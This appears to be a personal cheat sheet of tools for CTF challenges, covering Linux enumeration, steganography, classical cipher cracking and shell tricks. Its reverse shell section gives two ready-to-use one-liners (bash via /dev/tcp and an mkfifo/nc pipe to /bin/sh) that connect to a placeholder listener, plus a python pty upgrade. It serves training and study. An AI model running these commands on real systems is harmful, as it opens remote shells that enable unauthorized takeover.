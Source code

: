 # Tools and resources I have used on CTF's and Challenges

## Enumerating
### Linux
* LinEnum: https://github.com/rebootuser/LinEnum
* linprivesc: 

## Steganography
### MP3
* Spectrum analyzer: https://academo.org/demos/spectrum-analyzer/

### Images
* ImageStegano Tool: https://github.com/varunon9/Image-Stegano
  * check bit planes
* steghide

## Crypto
### Cipher cracking
* Vigenère
  * https://f00l.de/hacking/vigenere.php
  * http://simonsingh.net/The_Black_Chamber/vigenere_cracking_tool.html
* Caesar
  * https://www.nayuki.io/page/automatic-caesar-cipher-breaker-javascript
  
## Reverse shell
### 1 - S: bash ; C: nc
* Server: bash -i >& /dev/tcp/LISTENING-IP/LISTENING-PORT 0>&1
* Client: nc -nlvp LISTENING-PORT

### 2 - S: nc ; C: nc
* Server: rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc LISTENING-IP LISTENING-PORT >/tmp/f
* Client: nc -nlvp LISTENING-PORT

## Decent shell:
```
$ echo "import pty; pty.spawn('/bin/bash')" > /tmp/shell.py
$ python shell.py
```
